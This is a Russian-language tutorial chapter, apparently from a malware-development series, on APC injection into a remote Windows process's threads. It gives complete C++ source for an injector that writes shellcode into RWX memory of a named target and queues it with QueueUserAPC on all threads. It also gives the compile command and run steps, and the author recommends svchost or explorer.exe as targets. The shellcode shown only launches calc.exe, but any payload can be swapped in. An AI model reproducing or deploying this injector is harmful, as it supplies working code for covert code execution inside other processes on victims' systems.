\newpage
\subsection{APC инъекция с помощью Alertable Threads. простой малварь на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}    

Сегодня я расскажу о самой простой технике APC injection. Я собираюсь рассмотреть APC injection в удаленные потоки. В самом простом виде можно внедрить APC во все потоки целевого процесса, так как нет функции для определения, является ли поток ожидающим оповещения (alertable), и можно предположить, что один из потоков таким является и выполнит наш APC-запрос.    

### практический пример

Алгоритм этой техники прост:    

- Найти ID целевого процесса    

- Выделить память в целевом процессе для нашего payload    

- Записать payload в выделенную память    

- Найти потоки целевого процесса    

- Добавить APC в очередь всех потоков для выполнения payload    

На первом шаге нам нужно найти ID процесса-цели. Для этого я использовал функцию из одного из предыдущих разделов о поиске процесса:    

{width="80%"}    

Полный исходный код этой функции:

```cpp
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}
```

Затем выделяем память в целевом процессе для нашего payload:    

{width="80%"}    

Как видно, мы должны выделить эту область памяти с разрешениями `PAGE_EXECUTE_READWRITE`, что означает выполнение, чтение и запись.    

На следующем шаге записываем наш payload в выделенную память:    

{width="80%"}    

Далее ищем потоки целевого процесса. Для этого я написал еще одну функцию `getTids`:    

{width="80%"}    

Эта функция находит все потоки по PID процесса. Мы перечисляем все потоки и, если поток принадлежит нашему целевому процессу, добавляем его в вектор `tids`.    

Затем добавляем APC в очередь всех потоков для выполнения payload:    

{width="80%"}    

Как видно, мы добавляем APC в очередь потока с помощью функции `QueueUserAPC`. Первый параметр должен быть указателем на функцию, которую мы хотим выполнить, в нашем случае - указатель на payload. Второй параметр - это дескриптор удаленного потока.    

Теперь давайте посмотрим на полный исходный код нашего вредоносного C++-приложения:

```cpp
/*
hack.cpp
APC injection via Queue an APC into all the threads
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/11/22/malware-injection-5.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>
#include <vector>

unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

unsigned int my_payload_len = sizeof(my_payload);

// get process PID
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}

// find process threads by PID
DWORD getTids(DWORD pid, std::vector<DWORD>& tids) {
  HANDLE hSnapshot;
  THREADENTRY32 te;
  te.dwSize = sizeof(THREADENTRY32);

  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, NULL);
  if (Thread32First(hSnapshot, &te)) {
	do {
	  if (pid == te.th32OwnerProcessID) {
	    tids.push_back(te.th32ThreadID);
	  }
	} while (Thread32Next(hSnapshot, &te));
  }

  CloseHandle(hSnapshot);
  return !tids.empty();
}

int main(int argc, char* argv[]) {
  DWORD pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE ht; // thread handle
  LPVOID rb; // remote buffer
  std::vector<DWORD> tids; // thread IDs

  pid = findMyProc(argv[1]);
  if (pid == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  } else {
    printf("PID = %d\n", pid);

    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)pid);

    if (ph == NULL) {
      printf("OpenProcess failed! exiting...\n");
      return -2;
    }

    // allocate memory buffer for remote process
    rb = VirtualAllocEx(ph, NULL, 
    my_payload_len, 
    MEM_RESERVE | MEM_COMMIT, 
    PAGE_EXECUTE_READWRITE);

    // write payload to memory buffer
    WriteProcessMemory(ph, rb, 
    my_payload, 
    my_payload_len, NULL);

    if (getTids(pid, tids)) {
      for (DWORD tid : tids) {
        HANDLE ht = OpenThread(THREAD_SET_CONTEXT, FALSE, tid);
        if (ht) {
          QueueUserAPC((PAPCFUNC)rb, ht, NULL);
          printf("payload injected via QueueUserAPC\n");
          CloseHandle(ht);
        }
      }
    }
    CloseHandle(ph);
  }
  return 0;
}

```

Как обычно, для простоты, мы используем 64-битный `calc.exe` в качестве payload и выводим сообщение для демонстрации.    

Давайте скомпилируем наш код:   
```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
 -fdata-sections -Wno-write-strings -fno-exceptions \
 -fmerge-all-constants -static-libstdc++ -static-libgcc \
 -fpermissive
```

{width="80%"}    

Сначала запускаем `mspaint.exe` на целевой машине (в моем случае Windows 7 x64):    

{width="80%"}    

Затем запускаем наше вредоносное ПО:       
```cmd
.\hack.exe mspaint.exe
```

{width="80%"}    

Как видно, все работает отлично.    

Также успешно работает на `Windows 10 x64`:    

{width="80%"}    

{width="80%"}    

Но я заметил, что на моей машине `Windows 7 x64` целевой процесс аварийно завершился:    

{width="80%"}    

Я пока не разобрался, почему это произошло.     

Проблема с этой техникой в том, что ее поведение непредсказуемо, и во многих случаях она может запустить наш payload несколько раз. Что касается целевого процесса, думаю, `svchost` или `explorer.exe` - хороший выбор, так как они почти всегда имеют alertable-потоки.


[APC MSDN](https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls)         
[QueueUserAPC](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)          
[CreateToolhelp32Snapshot](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot)          
[Process32First](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32first)         
[Process32Next](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32next)       
[strcmp](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/strcmp-wcscmp-mbscmp?view=msvc-160)         
[Taking a Snapshot and Viewing Processes](https://docs.microsoft.com/en-us/windows/win32/toolhelp/taking-a-snapshot-and-viewing-processes)         
[Thread32First](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-thread32first)    
[Thread32Next](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-thread32next)    
[CloseHandle](https://docs.microsoft.com/en-us/windows/win32/api/handleapi/nf-handleapi-closehandle)        
[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)      
[исходный код на Github](https://github.com/cocomelonc/2021-11-22-malware-injection-5)    
